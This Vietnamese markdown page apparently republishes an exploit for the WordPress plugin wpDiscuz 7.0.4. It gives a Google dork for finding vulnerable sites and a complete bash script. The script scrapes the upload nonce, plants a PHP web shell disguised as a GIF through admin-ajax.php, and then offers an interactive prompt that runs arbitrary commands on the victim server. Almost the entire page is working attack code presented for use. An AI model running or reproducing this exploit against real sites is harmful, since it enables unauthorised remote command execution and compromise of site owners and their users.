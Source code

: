 ```yaml
---
title: Wordpress Plugin wpDiscuz 7.0.4 - Arbitrary File Upload (Unauthenticated)
date: 7/6/2021
layout: single

--- 
```

---
# Ngôn Ngữ
[![Language](https://img.shields.io/badge/Lang-bash-blue.svg)](https://www.gnu.org/software/bash/)

## Mô Tả 
+ Liên kết zip: [wpdiscuz.7.0.4.zip](https://downloads.wordpress.org/plugin/wpdiscuz.7.0.4.zip)
+ Tác giả gốc: Chloe Chamberland 
+ Tác giả khai thác: Juampa Rodríguez aka UnD3sc0n0c1d0
+ Phiên bản: 7.0.4
+ Google Dork: inurl:/wp-content/plugins/wpdiscuz/ 

--- 
## Run 
```shell
exploit.sh http://target/index.php/2021/06/06/post
```
## Bash

```bash
#!/bin/bash

if [ -z $1 ]
then
  echo -e "\n[i] Usage: exploit.sh [IP] [/index.php/2021/06/06/post]\n"
  exit 0
elif [ -z $2 ]
then
  echo -e "\n[i] Usage: exploit.sh [IP] [/index.php/2021/06/06/post]\n"
  exit 0
else

post=$(curl -sI http://$1$2/ | head -n1)

if [[ "$post" == *"200 OK"* ]]; then
    wmu_nonce=$(curl -s http://$1$2/ | sed -r "s/wmuSecurity/\nwmuSecurity/g" | grep wmuSecurity | cut -d '"' -f3)
    webshell=$(curl -isk -X 'POST' -H 'X-Requested-With: XMLHttpRequest' -H 'Content-Type: multipart/form-data; boundary=---------------------------WebKitFormBoundaryUnD3s' --data-binary $'-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"action\"\x0d\x0a\x0d\x0awmuUploadFiles\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"wmu_nonce\"\x0d\x0a\x0d\x0a'$wmu_nonce$'\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"wmuAttachmentsData\"\x0d\x0a\x0d\x0aundefined\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"wmu_files[0]\"; filename=\"a.php\" Content-Type: image/jpeg\x0d\x0a\x0d\x0aGIF8\x0d\x0a<?php\x0d\x0aif(isset($_REQUEST[\'cmd\'])){\x0d\x0a        $cmd = ($_REQUEST[\'cmd\']);\x0d\x0a        system($cmd);\x0d\x0a        die;\x0d\x0a}\x0d\x0a?>\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"postId\"\x0d\x0a\x0d\x0a18\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s--\x0d\x0a' http://$1/wp-admin/admin-ajax.php | sed 's/\":"\http/\nhttp/g' | grep "http\:\\\\/" | cut -d '"' -f1 | sed 's/\\//g')

    echo -e "\nWebshell:" $webshell"\n"
    echo -e "--------------WIN--------------"
    echo -e "        ¡Got  webshell!        "
    echo -e "-------------------------------\n"
    while :
    do
    read -p '$ ' command
    curl -s $webshell?cmd=$command | grep -v GIF8
done
else
    echo -e "\n[!] The indicated post was not found\n"
fi
fi
```

---

## Chúc May Mắn :D
